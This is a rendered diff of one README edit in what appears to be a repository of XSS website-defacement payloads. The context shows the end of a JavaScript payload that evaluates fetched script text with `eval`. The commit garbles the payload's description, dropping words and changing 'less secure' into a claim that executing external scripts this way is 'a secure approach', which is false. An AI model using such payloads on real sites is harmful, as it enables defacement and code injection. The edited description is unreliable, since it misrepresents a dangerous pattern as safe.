

Before and after one commit to Karthikdude/Deface, a Markdown page: README.md, the part around the change. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -14,7 +14,7 @@ This repository contains various XSS (Cross-Site Scripting) deface payloads that
 for (let script of scripts) { eval(script.innerText); } }); </script>
 ```
 
-**Details:** This payload fetches an external JavaScript file and executes it directly using `eval`. While this is a less secure approach, it is effective in environments where execution of external scripts is needed.
+**Details:** This payload fetches an external JavaScript file While this is a  secure approach, it is effective in environments where execution of external scripts is needed.
 
 ---
 
````
